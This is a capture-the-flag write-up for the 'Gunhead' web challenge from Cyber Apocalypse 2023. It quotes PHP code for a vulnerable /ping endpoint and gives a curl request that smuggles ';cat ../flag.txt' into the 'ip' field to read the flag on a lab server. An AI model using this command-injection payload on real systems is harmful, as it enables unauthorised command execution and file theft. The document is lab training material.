

# Cyber Apocalypse 2023

## Gunhead

> During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable. With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.
>
>  Author: N/A
>
> [`web_gunhead.zip`](web_gunhead.zip)

Tags: _web_

## Solution
When inspecting the source code we can see and enpoint `/ping` that allows us to inject shell commands:

```
public function ping($router)
{
        $jsonBody = json_decode(file_get_contents('php://input'), true);

        if (empty($jsonBody) || !array_key_exists('ip', $jsonBody))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        $pingResult = new ReconModel($jsonBody['ip']);

        return $router->jsonify(['output' => $pingResult->getOutput()]);
}
```



Or by scheduling an curl command:

```
$ curl -X POST -H 'Content-Type: application/json' -d'{"ip":"0.0.0.0;cat ../flag.txt"}'  http://159.65.81.51:30542/api/ping
{"output":"PING 0.0.0.0 (0.0.0.0): 56 data bytes\nHTB{4lw4y5_54n1t1z3_u53r_1nput!!!}"}
```